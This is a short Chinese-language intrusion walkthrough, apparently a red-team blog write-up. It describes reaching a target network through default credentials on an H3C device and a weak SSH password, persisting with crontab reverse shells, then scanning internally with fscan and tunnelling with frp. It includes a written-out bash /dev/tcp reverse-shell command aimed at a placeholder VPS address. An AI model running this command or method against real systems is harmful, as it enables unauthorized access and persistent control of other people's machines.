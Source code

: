 下面我会按照上面图上标记的序号说明内网攻击过程

### 路径1/路径2 外网弱口令

这里说下这个目标IP怎么来的，通过IP地址收集C段信息找到h3c设备，默认审计账号密码登陆上去命令控制台查看对应授权信息确定是目标IP地址，但是审计账号没有配置权限没法做vpn隧道这些，所以做了个全端口扫描发现一个非标准端口的ssh弱口令，这里拿到服务器权限后我先做了一个反弹shell计划任务。

crontab -e编辑计划任务

```php
bash -c 'exec bash -i &>/dev/tcp/you vps ip/you vps port <&1'
```

做完计划任务之后我才上fscan扫描，发现内网很多ssh、mssql弱口令，ssh反弹shell计划任务又做了几台，防止一会动作太大掉了。

![image.png](assets/1698900782-695112517d0fb8d57fb0ab792bb46b0a.png)

内网弱口令一薅一大把，建个frp方便一会去内网翻东西，下载对应编译好的版本就可以。

项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_linux_amd64.tar.gz)
